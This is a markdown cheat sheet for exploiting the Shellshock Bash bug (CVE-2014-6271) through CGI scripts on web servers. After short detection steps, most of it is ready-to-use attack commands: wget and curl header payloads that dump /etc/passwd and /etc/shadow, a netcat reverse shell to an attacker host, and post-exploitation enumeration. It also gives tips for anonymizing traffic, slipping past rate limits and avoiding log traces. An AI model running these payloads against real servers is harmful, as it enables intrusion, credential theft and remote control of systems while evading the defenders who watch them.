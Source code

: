 

### Overview

- **CVE**: CVE-2014-6271 (and related CVEs)
- **Affected Systems**: Bash versions prior to 4.3
- **Common Exploitation Vectors**: CGI scripts, web servers using Bash
- **Ports to Target**: Typically 80/443 (web services)

---

### Detection Methods

#### **1. Manual Testing (Local)**

Run the following command to test for vulnerability:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo test"
```

- **Output includes "vulnerable"**: System is vulnerable.
- **Output shows only "test"**: System is patched.

#### **2. Automated Scanning with Nmap**

Use Nmap scripts for Shellshock detection:

```bash
# Test a specific CGI script
nmap --script http-shellshock --script-args uri=/cgi-bin/script.cgi <target-ip> -p 80

# Scan common paths for Shellshock
nmap --script http-shellshock --script-args uri=/cgi-bin/ <target-ip> -p 80
```

---

### Identifying CGI Scripts

#### **1. Scanning with Dirsearch**

```bash
# Basic scan for CGI scripts
./dirsearch.py -u http://target.com/ -e cgi -r

# Thorough scan including common extensions
./dirsearch.py -u http://target.com/ -e cgi,sh,pl,py -r -w /path/to/wordlist
```

#### **2. Common CGI Paths to Test**

- `/cgi-bin/`
- `/cgi-sys/`
- `/cgi-local/`
- `/cgi-mod/`
- `/cgi/`

---

### Exploitation Techniques

#### **1. Basic Command Execution**

```bash
wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://target.com/cgi-bin/script.cgi
```

#### **2. Reverse Shell Exploitation**

**Step 1: Start a Listener**

```bash
nc -nlvp 4444
```

**Step 2: Deliver the Payload**

```bash
# Using wget
wget -U "() { foo;};echo; /bin/nc <attacker-ip> 4444 -e /bin/sh" http://target.com/cgi-bin/script.cgi

# Using curl
curl -H "User-Agent: () { :; }; echo; /bin/nc <attacker-ip> 4444 -e /bin/sh" http://target.com/cgi-bin/script.cgi
```

#### **3. Additional Payloads**

**File Reading**

```bash
wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/shadow" http://target.com/cgi-bin/script.cgi
```

**System Enumeration**

```bash
# Get system information
wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/uname -a" http://target.com/cgi-bin/script.cgi

# List running processes
wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/ps -ef" http://target.com/cgi-bin/script.cgi
```

---

### Post Exploitation Steps

1. **Upgrade Shell**

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

2. **Privilege Escalation Enumeration**

```bash
id
sudo -l
find / -perm -4000 2>/dev/null   # SUID files
find / -perm -2000 2>/dev/null   # SGID files
```

---

### Operational Security Tips

- Use randomized User-Agent strings.
- Avoid automated tools in production environments.
- Space out requests to bypass rate limiting.
- Use proxies or VPNs to anonymize traffic.

---

### Common Pitfalls to Avoid

- Failing to URL-encode payloads properly.
- Testing risky commands without verifying basic functionality (e.g., `whoami`).
- Leaving traces on the target system (e.g., logs, created files).
- Writing files with improper permissions.

---

### Additional Tips and Workarounds

- If `nc` lacks the `-e` option, explore alternative reverse shell methods (Python, Perl, etc.).
- Check for WAFs or other protective mechanisms before exploiting.
- Always document your methodology and findings.

---

